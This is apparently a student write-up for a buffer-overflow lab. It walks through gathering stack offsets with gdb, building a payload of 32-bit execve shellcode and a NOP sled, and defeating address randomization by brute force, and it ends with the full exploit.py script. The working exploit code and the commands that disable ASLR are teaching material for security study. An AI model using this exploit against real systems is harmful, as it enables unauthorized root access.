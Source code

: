 
#### Ryan Dotzlaw

Do task 1, 2, 3, and 8.

### Task 1: Getting Familiar With Shellcode

For this task, compile and execute the 32-bit and 64-bit versions of the given `call_shelcode.c`.

Compiling and running `a32.out` gives:


![Shell](1b.png)


Compiling and running `a64.out` gives:


![Shell](1a.png)


From the results of both `a32.out` and `a64.out` we can see that executing them gives a root shell to the one who ran them.


### Task 2: Understanding the Vulnerable Program

In given `code/Makefile` set `L1` to `254` according to assignment instructions.

Then just compile the code using the given `Makefile`

![Compilation](2a.png)

### Task 3: Launching an Attack on a 32-bit Program

#### Preparing for the Attack

We have to disable some countermeasures built into Linux if we want to succeed with this basic buffer overflow.

Disable address randomization with the following command:

```
sudo sysctl -w kernel.randomize_va_space=0
```

#### Investigating for the Attack

We need to gather some information before we can construct our payload.

The program we're going to be attacking is `stack-L1`, so we'll use the debug binary for it that we compiled to gather information about the stack.

We do this by using `gdb` and creating a breakpoint at the `bof` function.

![breakpoint](3breakpoint.png)

Then stepping forwards once with `next` and getting the value in the `$ebp` register.

![ebp](3ebp.png)

In actual execution the frame pointer will be larger, since `gdb` pushes some additional stuff onto the stack.

Without `gdb` the stack wouldn't have grown as much, so we need to keep this in mind when creating the payload.

Then we also want to get the address of the buffer variable.

![buffer address](3buffaddr.png)

The distance between the buffer address and the frame address is:

```
0xffffcb18 - 0xffffca12 = 0x106 (262 in decimal)
```


#### Preparing the Payload

We'll construct the payload in `badfile` using the given `exploit.py`, but we'll have to do some modifications.

`exploit.py` creates the file `badfile` by constructing a 517 `NOP` long string, then by overwriting part of it with the shellcode, and then another part with the return address.

The challenge comes from finding where to put the return address and the shellcode.

Modifying the `shellcode` variable to contain the following:

```
"\x31\xc0" # xorl %eax,%eax
"\x50" # pushl %eax
"\x68""//sh" # pushl $0x68732f2f
"\x68""/bin" # pushl $0x6e69622f
"\x89\xe3" # movl %esp,%ebx
"\x50" # pushl %eax
"\x53" # pushl %ebx
"\x89\xe1" # movl %esp,%ecx
"\x99" # cdq
"\xb0\x0b" # movb $0x0b,%al
"\xcd\x80" # int $0x80
```

This defines the code that will launch the root shell.

Next we need to define where the shellcode will be placed using the `start` variable.

The simplest solution is to just place the shellcode at the very end, so we have a larger area of `NOP` instructions to hit with our return address.

So we set start to:

```
517 - len(shellcode)
```

Then we need to place the correct return address in the proper spot to overwrite the original return address.

From our investigation with `gdb`, we know the difference between where the buffer starts in memory and where the frame starts is `0x106`, so the return address is `+4` above that.

So our address needs to be placed at an offset of `0x10A`, so we set offset to `0x10A`.

Then we need to set value to overwrite the original return address with.

Because of our `NOP` sled, we can undershoot our shellcode by a decent bit and still reach it, but we can't overshoot or the exploit will fail.

We also need to remember that the address given to us was gotten when we were using `gdb`, which effects the position of the address by making it lower than it would be in normal execution (because the stack grows down).

To start with, I'll use the address we got plus `200`, setting the `ret` to:

```
0xffffcb18 + 200
```

View the full code for `exploit.py` in the appendix.

Then we generate `badfile` by running `python3 exploit.py`, and then we just have to run `./stack-L1`, getting this as a result:

![rootshell](3succ.png)

Meaning we've successfully executed arbitrary code using a buffer overflow.

### Task 8: Defeating Address Randomization

Now we need to re-enable address randomization with the following command:

```
sudo sysctl -w kernel.randomize_va_space=2
```

From there we can just run the given `brute_force.sh` which will keep running until we exhaust all the addresses and succeed.

This is only possible because the `stack-L1` program is 32-bit and there are only 2^19 addresses.

For 64-bit programs, the time it takes to do an attack like this is not feasible.

The result of running the brute force attack is as follows:

![rootshell](4shell.png)

It didn't take too long for it to succeed, only around 2 minutes with a total of 31,304 tries.

Considering there is a total of 524,288 (2^19) addresses, I only went through roughly a 16th of the possible addresses.

That means that I had good luck, as it could've taken potentially 16 times longer.

Realistically since the memory is structured the return address doesn't really have 524,288 potential positions, so a worst case wouldn't take you 32 minutes.

Even then, 32 minutes for a rootshell doesn't seem like a daunting amount of time for a hacker trying to gain access to a rootshell

### Appendix

#### exploit.py
```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
"\x31\xc0" # xorl %eax,%eax
"\x50" # pushl %eax
"\x68""//sh" # pushl $0x68732f2f
"\x68""/bin" # pushl $0x6e69622f
"\x89\xe3" # movl %esp,%ebx
"\x50" # pushl %eax
"\x53" # pushl %ebx
"\x89\xe1" # movl %esp,%ecx
"\x99" # cdq
"\xb0\x0b" # movb $0x0b,%al
"\xcd\x80" # int $0x80
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)             # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb18 + 200   # + 8 works with gdb     # Change this number 
offset = 0x10A            # Distance + 4 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```